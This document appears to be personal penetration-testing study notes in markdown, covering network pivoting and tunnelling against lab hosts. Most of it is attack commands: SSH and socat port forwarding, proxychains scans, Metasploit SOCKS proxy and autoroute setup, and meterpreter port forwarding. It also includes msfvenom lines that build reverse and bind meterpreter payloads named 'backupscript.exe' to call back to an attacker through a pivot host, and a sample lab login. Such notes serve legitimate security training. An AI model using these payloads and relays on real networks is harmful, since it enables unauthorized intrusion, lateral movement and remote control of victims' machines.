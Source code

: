 
## #SSH local port forwarding
![[Pivotting.png]]
### Scan the pivot target 
```shell
nmap -sT -p22,3306 10.129.202.64
```
### Execute the local Port Forward 
```shell
ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```
-L Forward all traffic from the first port to the second
### Confirm Port Forward 
```shell
netstat -antp | grep 1234
```
```shell
nmap -v -sV -p1234 localhost
```
### Forward multiple hosts  
```shell
ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

## SSH Tunnelling over #SOCKS proxy 
To connect to the target machine from the local machine you can start a SOCKS listener on the local host. 
*This is called SSH tunneling over SOCKS proxy*

Allows traffic to be route to the second target via the first machine. 
![[Pivotting over SSH.png]]

#### Dynamic Port forwarding with SSH 

##### Use #Proxychains to send traffic across #proxy 
```shell
ssh -D 9050 ubuntu@10.129.202.64
```
The D argument requests the SSH server to enable dynamic port forwarding. 

```shell
tail -4 /etc/proxychains.conf
```
Add `socks4 127.0.0.1 9050` to the bottom. 
##### #nmap with proxy chains 
```shell
 proxychains nmap -v -sn 172.16.5.1-200
```
##### Proxy chains with metasploit 
```shell
proxychains msfconsole
```
##### Proxychains with xfreerdp
```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
## Remote/Reverse Port Forwarding 
Allows the target to talk back to you
Example payload:
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
On the local machine 
```shell
ssh -R <InternalIPofPivotHost>:<multi handler port>:<listenerip>:<lport> <target username>@<ipAddressofTarget> -vN
```


## Meterpreter Tunnelling & Port Forwarding
### Ping Sweeping to search for more hosts 
Run these twice to allow ARP cache to build up
```shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
```cmd
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

```msf
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
### MSF SOCKS Proxy 
```shell
use auxiliary/server/socks_proxy
```
```shell
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
```
Check the proxy is running 
```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====
Id  Name    Payload  Payload opts
0   Auxiliary: server/socks_proxy
```
may need to add to /etc/proxychains.conf
```shell
socks4 	127.0.0.1 9050
```
#### Creating Routes 
```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```
 or 
 ```shell
run autoroute -s 172.16.5.0/23
```
```shell
run autoroute -p
```
#### Test Connection 
```shell
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```
### Port Forwarding 
create a local TCP relay 
```meterpreter
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

```shell
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
### Reverse Port Forwarding 
```shell
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
Forward requests on port 1234 to listener on port 8081
##### Start a multi handler


## [Socat](https://linux.die.net/man/1/socat) Redirection with a Reverse Shell
Bidirectional relay tool that can create a pipe between 2 network channels. 
### Start #Socat Listener 
Do this on the pivot host 
```shell
socat TCP4-LISTEN:8080,fork TCP4:<local ip>
```

Listen on the local host on port 8080 and forward traffic over port 80

### Create the payload 
```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<pivot host ip> -f exe -o backupscript.exe LPORT=8080
```
Start a multi handler on port 80 
## Socat Redirection with a Bind Shell
![[Pivotting MSF.png]]
```shell
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
Create the payload 

### Socat Bind Listener 
```shell
 socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
Needs to be the inverse way to ensure traffic is forwarded to the target this time 

Start a multi handler 

Establish a meterpreter session 


## RDP and SOCKS Tunneling with SocksOverRDP
SSH not available?
[SOCKS over RDP](https://github.com/nccgroup/SocksOverRDP)
Uses Dynamic Virtual Channels
### Downloads 
https://github.com/nccgroup/SocksOverRDP/releases
https://www.proxifier.com/download/#win-tab

#### Load SocksOverRDP on pivot host 
```cmd
regsvr32.exe SocksOverRDP-Plugin.dll
```
Connect over RDP using mstsc.exe
Should receive prompt that SocksOverRDP is enabled.

Transfer SocksOverRDP-Server.exe and star with admin privileges. 

Check SOCKS Listener is started 
```cmd
netstat -antb | findstr 1080
```

### Transfer Proxifier over to the pivot host
Profiles > add profile
Configure to forward all packets to 127.0.0.1:1080

